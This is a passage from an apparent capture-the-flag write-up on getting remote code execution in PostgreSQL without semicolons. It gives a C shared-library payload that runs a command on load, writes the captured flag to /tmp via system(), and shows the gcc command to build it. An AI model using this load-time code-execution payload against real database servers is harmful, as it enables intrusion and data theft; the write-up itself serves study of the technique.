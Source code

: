 It was almost midnight, and there I was trying to send two SQL commands to PostgreSQL **without using a `;`**.

Then I stumbled upon an amazing post by `@adeadfed`: [_PostgreSQL SELECT-only RCE_](https://adeadfed.com/posts/postgresql-select-only-rce/). That post had everything I needed to make the exploit work. But... it was very late, and I was very sleepy. I had to re-read parts of it multiple times just to process it properly.

The core idea is to override `postgresql.conf` using a custom payload uploaded through PostgreSQL's `lo` (large object) functions.

To do that, we’ll use the following C code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

__attribute__((constructor)) void run_on_load() {
    FILE *fp = popen("/readflag", "r");
    if (!fp) return;

    char flag[256] = {0};
    if (fgets(flag, sizeof(flag) - 1, fp)) {
        flag[strcspn(flag, "\n")] = 0; // remove newline
    }
    pclose(fp);

    if (strlen(flag) == 0) return;

    // build the curl command
    char cmd[512];
    snprintf(cmd, sizeof(cmd),
        "echo '%s' > /tmp/flag",
        flag);

    system(cmd);
}
```
> This code was generated by Gpeto. Initially, I wanted to send the flag via `curl` to my ngrok server, but since it was already late, I just modified it to copy the flag to `/tmp`.

I compiled the code using the following command:
`gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c`

I used Docker to do this.
>**Note:** It was necessary to install the `postgresql-dev` package. You can do the same with: `apk add postgresql-dev`
